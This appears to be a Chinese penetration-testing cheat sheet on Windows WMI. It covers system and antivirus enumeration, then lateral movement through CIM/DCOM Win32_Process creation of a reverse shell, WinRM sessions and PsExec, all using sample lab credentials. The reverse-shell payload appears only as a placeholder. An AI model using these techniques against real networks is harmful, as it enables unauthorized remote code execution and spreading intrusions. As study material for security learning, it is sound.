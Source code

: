 # WMI
WMI 是 Windows 操作系统的功能，默认情况下，无须安装就可以使用。某些 Provider(提供程序)的安装会由系统配置而定。
在 Powershell 未发布前用来管理 Windows 2000、Windows 95、Windows 98、WindowsNT 等操作系统，当然如今的所有 Windows 系统依旧可以使用 WMI 来进行管理。
(不论 Powershell、VBScript 或者其他什么语言，其本质还是使用.NET 来访问 WMI 的类库，都是因为 WMI 向外暴露的一组 API，然后进行管理，Powershell 的发布只是让我们管理的方式多了一种，本质上没有改变去使用 WMI。)


## 使用WMI枚举
`Get-WmiObject -Class __namespace -Namespace root | select name`   Powershell查询命名空间
`Get-WmiObject -Class  Win32_BIOS`    显示bois
`Get-WmiObject -Class  Win32_Operatingsystem`   Powershell查询计算机信息
查询windows机器版本和服务位数和.net版本
`wmic os get caption`
`wmic os get osarchitecture`
`wmic OS get Caption,CSDVersion,OSArchitecture,Version`
查询本机所有盘符
`fsutil fsinfo drives`
`shell wmic logicaldisk list brief`
`shell wmic logicaldisk get description,name,size,freespace /value`
查看系统中⽹卡的IP地址和MAC地址
`wmic nicconfig get ipaddress,macaddress`
⽤户列表
`wmic useraccount list brief`
查看当前系统是否有屏保保护，延迟是多少
`wmic desktop get screensaversecure,screensavertimeout`
域控机器
`wmic ntdomain list brief`
查询杀软
`wmic /namespace:\\root\securitycenter2 path antispywareproduct GET displayName,productState, pathToSignedProductExe && wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe`
查询启动项
`wmic startup list brief |more`
获取打补丁信息
`wmic qfe list`
启动的程序
`wmic startup list brief`
启动的程序
`wmic startup list full`



## 利用WMI横向移动
Windows Management Instrumentation (WMI) 是 Microsoft 对基于 Web 的企业管理 (WBEM) 的实现，WBEM 是一项业界倡议，用于为访问企业环境中的管理信息开发一项标准技术。 **WMI 使用通用信息模型 (CIM) 行业标准来表示系统、应用程序、网络、设备和其他托管组件**。
利用WMI控制远程主机主要使用两种方法：第一使用DCOM协议与远程计算机建立连接，第二使用winrm远程管理来控制计算机


### 使用WMI中DCOM协议横向移动
首先创建PSCredential用于CIM通用信息模型，来与远程WMI进行沟通，然后使用python反弹脚本注入远程主机，获得远程主机shell 
`$username='jen';`
`$password='Nexus123!';`
`$secureString=ConvertTo-SecureString $password -AsPlaintext -Force;`
`$credential=New-Object System.Management.Automation.PSCredential $username,$secureString;` 
创建CIM信息模型
`$option=New-CimSessionOption -Protocol DCOM;`
`$session=New-CimSession -ComputerName 192.158.100.10 -Credential $credential -SessionOption $option;` 
为了避免出现坏字符，使用base64加密反弹shell
使用CIM模型对远程WMI进行控制
`$command='python encode payload';`
`Invoke-CimMethod -CimSession $session -ClassName win32_Process -MethodName Create -Arguments @{CommandLine=$command};`
这时远程主机会利用win32_process创建进程，将反弹shell注入其中执行，获得远程主机控制权限


### 使用WINRM横向移动
除了使用DCOM协议远程控制WMI以外，也可以使用winrm让远程机器执行反弹shell 
`winrs -r:file04 -u:jen -p:Nexus123! "python encode payload"`
或者使用powershell版本的winrm控制远程WMI
`$username='jen';`
`$password='Nexus123!';`
`$secureString=ConvertTo-SecureString $password -AsPlaintext -Force;`
`$credential=New-Object System.Management.Automation.PSCredential $username,$secureString;`
`New-PSSession -ComputerName 192.168.100.10 -Credential $credential;`
利用enter-pssession进入命令行控制
`Enter-PSSession 1`



# 使用PsExec工具横向移动
PsExec利用在ADMIN$共享中在C:\Windows中写入psexesvc.exe，并且将创建一个服务，作为 psexesvc.exe 的子进程运行请求的命令
所以使用PsExec工具前要满足三个条件：
（1）使用PsExec工具的用户必须属于本地管理员组（域用户不行）
（2）目标机器共享ADMIN$
（3）必须打开文件和打印机共享
`.\PsExec64.exe -i \\FILE04  -u corp\jen -p abc123 cmd`
会利用PsExec开启一个CMD


